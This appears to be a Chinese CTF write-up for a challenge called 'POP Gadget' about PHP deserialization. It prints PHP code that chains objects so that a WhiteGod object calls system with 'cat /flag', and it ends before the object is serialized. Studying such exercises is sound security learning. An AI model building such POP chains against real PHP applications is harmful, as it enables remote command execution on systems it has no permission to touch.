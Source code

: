 

### 第三题 POP Gadget

<img src="../typora-user-images/image-20240302221527571.png" alt="image-20240302221527571" style="zoom: 67%;" />

pop链应该和php反序列化有关

进入网页，我们可以看到要想执行命令，应该是在WhiteGod类中，执行__unset

例如 func=system    var=‘ls’

![image-20240304223220561](../typora-user-images/image-20240304223220561.png)

​		php反序列的知识是看了B站橙子实验室的教程视频，很不错，这题目pop链整出来，代码如下：

```php
<?php
class Begin{
    public $name;
}

class Then{
    private $func;
    public function __construct()
    {
        $this->func=new Super();
    }
}

class Handle{
    protected $obj;
    public function __construct()
    {
        $this->obj=new CTF();
    }
}

class Super{
    protected $obj;
    public function __construct()
    {
        $this->obj=new Handle();
    }
}

class CTF{
    public $handle;
    public function __construct()
    {
    $this->handle=new WhiteGod();
    }
}

class WhiteGod
{
    public $func;
    public $var;
    public function __construct()
    {
        $this->func="system";
        $this->var="cat /flag";
    }
}

$begin=new Begin();
```